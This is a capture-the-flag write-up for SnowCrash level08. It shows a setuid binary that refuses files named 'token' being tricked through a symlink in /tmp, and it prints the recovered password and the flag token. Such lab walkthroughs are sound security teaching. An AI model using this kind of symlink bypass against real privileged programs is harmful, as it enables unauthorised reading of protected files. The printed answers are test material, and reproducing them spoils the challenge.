 ### Exploit

This time around, we've got a binary file and a text file.

```
    level08@SnowCrash:~$ ls -l
    total 16
    -rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08 flag08    26 Mar  5  2016 token
    level08@SnowCrash:~$ ./level08
    ./level08 [file to read]
    level08@SnowCrash:~$ ./level08 token
    You may not access 'token'
```
We haven't got any permission on `token` as user `level08`. However, the binary file will print out the content of any file we own.

```
    level08@SnowCrash:~$ echo "test">/tmp/test
    level08@SnowCrash:~$ ls -l /tmp/test
    -rw-rw-r-- 1 level08 level08 6 Jan 13 17:20 /tmp/test
    level08@SnowCrash:~$ ./level08 /tmp/test
    test
```
This means the script opens, reads and writes the content of any file, even though it pertains to user `level08`. Obviously, we can't modify the permission rights of `token` with `chmod`, so we need to find a way around this constraint. This can be achieved through symbolic links and absolute paths.

```
    level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/key
    level08@SnowCrash:~$ cat /tmp/key
    cat: /tmp/key: Permission denied
    level08@SnowCrash:~$ ls -la /tmp/key
    lrwxrwxrwx 1 level08 level08 24 Dec 10 16:48 /tmp/key -> /home/user/level08/token
    level08@SnowCrash:~$ ./level08 /tmp/key
    quif5eloekouj29ke0vouxean
    level08@SnowCrash:~$ su flag08
    Password:
    Don't forget to launch getflag !
    flag08@SnowCrash:~$ getflag
    Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
This trick will turn out to be very useful for the next couple of levels...
